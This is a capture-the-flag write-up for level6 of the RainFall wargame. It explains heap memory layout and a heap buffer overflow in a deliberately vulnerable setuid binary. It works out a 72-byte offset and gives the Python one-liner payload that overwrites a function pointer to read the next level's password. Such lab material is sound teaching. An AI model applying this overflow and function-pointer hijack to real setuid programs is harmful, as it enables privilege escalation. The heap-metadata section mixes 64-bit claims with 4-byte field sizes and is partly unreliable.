




# LEVEL6

## 1. Inspect The Executable

```bash
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with level7 privileges.

```bash
level6@RainFall:~$ ./level6 
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 a
Nope
level6@RainFall:~$ ./level6 a a
Nope
level6@RainFall:~$ ./level6 a a a
Nope
level6@RainFall:~$ ./level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Nope
```

The program takes an argument and prints `"Nope"` most of the time.

```bash
level6@RainFall:~$ ./level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Nope
level6@RainFall:~$ ./level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

These tests indicate a **buffer overflow vulnerability** (here triggered with 72 `a` characters), meaning there is **no protection** on the input buffer.

## 2. Analyze The Executable

```
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 3 interesting functions: `main`, `n` and `m`.

### Program Behavior

#### main function

The `main` function **allocates memory** for the local variable **`__dest`**, used as **buffer**, using **`malloc()`**, with a size of **`0x40 bytes`** (64 in decimal).

It then calls `malloc()` again to allocate **`4 bytes`** for the local variable **`puVar1`**, which is used as a **function pointer**.
The **address** of the **function `m`** is **assigned** to this pointer.

Next, the program **copies** the string provided as **argument** into **`__dest`** using `strcpy()`.
The source of the copy is `*(char **)(param_2 + 4)`, which corresponds to `argv[1]` in Ghidra’s decompilation output.
This copy is performed without any bounds checking, making it vulnerable to a buffer overflow.

Finally, the program **calls** the **function pointed to** by **`puVar1`** and then returns.

#### m function

The `m` function prints `"Nope"` using `puts()` then returns.

#### n function

The `n` function **executes** `system("/bin/cat /home/user/level7/.pass")` and then returns.


## 3. Exploit Development

In this level, we can use the **Buffer Overflow Attack**. But here, this will be a **Heap based Buffer Overflow**. 

### Heap Understanding

To understand a **Heap Buffer Overflow**, we first need to **understand how the heap works**.

The **heap** is a **memory area** used for **dynamic memory allocation**, managed by functions such as `malloc` and `free`.

Unlike the **stack**, which follows a **LIFO** (Last In, First Out) structure and is automatically managed during function calls, the heap is **dynamically managed** by the program. Memory can be allocated and freed in any order, which can lead to **fragmentation**, where free memory split into non-contiguous blocks.

In **x86 architecture**, allocations are placed in **contiguous regions in the process’s memory**, and each allocation is associated with **metadata** used by the memory allocator. This metadata is usually placed **just before the usable memory area** and can include **size information**, **state** (free or allocated), **pointers to neighboring blocks**, and **various flags**. Each allocated block is often called a **chunk**, and free chunks are organized in **bins or free lists** to optimize memory management.

On x86 **64-bit systems**, there is also an **8-byte alignment requirement**. If the **allocated memory** would **not start** on an **8-byte boundary**, the allocator will **adjust the block** or **add padding** to ensure that the **usable memory area** is **properly aligned**. This guarantees correct access for pointers, integers, and other data types.

When an **allocation occurs** on the **heap**:
- The **allocator selects** a **suitable memory region**.
- It **sets up** the **metadata** for that chunk.
- It **returns a pointer** to the **beginning of the usable memory area** to the program.

---

### Heap and CPU's Memory Space Layout



**Metadata Legend:**

- **`prev_size` (4 bytes)**: Size of the previous chunk. Only used if the previous chunk is **free**. If the previous chunk is allocated, this space can be reused as part of the previous chunk's user data.

- **`size` (4 bytes)**: Size of the current chunk in bytes.

- **Flags (3 bits embedded in `size`):**
  - **`P` (Previous In Use)**: Set to 1 if the previous chunk is allocated, 0 if free. This determines whether `prev_size` is valid.
  - **`M` (Mmapped)**: Set to 1 if this chunk was allocated via `mmap()` instead of being part of the heap.
  - **`N` (Non-main arena)**: Set to 1 if this chunk belongs to a non-main memory arena (used in multi-threaded programs).

- **`forward pointer` (4 bytes)**: Points to the next free chunk in the free list (bin). Only present in **free chunks**.

- **`backward pointer` (4 bytes)**: Points to the previous free chunk in the free list (bin). Only present in **free chunks**.

**Note:**
This data structure is specific to glibc malloc on x86 64-bit systems. The size and contents of metadata can vary depending on the allocator, the architecture, and compiler options.

---

To better understand the overall picture, here is a **simplified view of a process’s memory space** as seen by the **CPU** (virtual memory):



---

### Level Heap Layout

In this level, the **heap layout** looks like this :



---

**Note:**

The allocator ensures **8-byte alignment** by rounding up allocation sizes. When you request 64 bytes, the allocator may actually allocate 72 bytes (64 + 8 for metadata), ensuring the returned pointer is 8-byte aligned.

The exact behavior depends on the allocator implementation and can vary between systems.

### Understand The Attack

By **overflowing** the **`__dest` buffer**, we can overwrite the **heap chunk metadata** *(which includes the size field and alignment padding)* and then the **memory allocated** for `puVar1`, which contains a **function pointer**.

By overwriting this **function pointer** with the **address of `n()`**, the call `(*(code *)*puVar1)();` will **redirect execution** to `n()`, which prints the `.pass` file for `level7`.

### Get Exploit Values

First, we need to **calculate the overflow offset** required to reach the **memory area** of `puVar1` starting from `__dest`.

The layout in memory is:

```
([Chunk 1 metadata: 8 bytes]) [__dest: 64 bytes] [Chunk 2 metadata: 8 bytes] [puVar1: 4 bytes]
						              	  ↑
						              	start here
```

Which corresponds to:
```
64 bytes (__dest buffer) + 8 bytes (chunk 2 metadata) = 72 bytes
```

Therefore, the required offset is **72 bytes**.

---

Next, we need the **address of the function `n()`**.

Using `gdb`, we obtain:

```bash
(gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

The **target address** is therefore : `0x8048454`. In little-endian format:
```
\x54\x84\x04\x08
```

### Overflow Visualization



### Create the Payload

```bash
python -c "print 'a' * 72 + '\x54\x84\x04\x08'"
```

**Explanation:**
- `python`			: launches the Python interpreter.
- `-c` 				: executes the command passed as a string.
- `print` 			: outputs data to standard output.

## 4. Capture The Flag

```bash
level6@RainFall:~$ ./level6 $(python -c "print 'a' * 72 + '\x54\x84\x04\x08'")
XXX
```
